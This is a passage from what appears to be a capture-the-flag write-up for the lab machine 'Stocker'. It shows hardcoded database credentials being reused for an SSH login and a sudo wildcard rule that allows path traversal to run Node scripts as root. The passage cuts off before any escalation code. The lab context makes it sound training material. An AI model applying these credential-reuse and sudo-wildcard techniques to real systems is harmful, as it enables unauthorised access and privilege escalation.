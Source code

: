 In the database connection string, hardcoded credentials can be seen, `dev:IHeardPassphrasesArePrettySecure`.

# SHELL AS ANGOOSE

We have a valid username `angoose` and a possible credential `IHeardPassphrasesArePrettySecure` from `index.js`. 

If the user reuses the same credentials for SSH, we will be able to login to the box via SSH on port 22.

```bash

┌──(n3hal㉿Universe7)-[~]
└─$ ssh angoose@stocker.htb
angoose@stocker.htb's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

angoose@stocker:~$ id; whoami
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
angoose

```

We are successful in logging in to the box.

# PRIVILEGE ESCALATION TO ROOT

```bash

angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js

```

The current user can run any javascript script which is supposed to be in `/usr/local/scripts` with superuser permissions.

But note that we have a wildcard here.

With the wildcard, we can potentially use dot-dot-slash sequences to iterate through any arbitrary directory and run node scripts from any directory we can control.
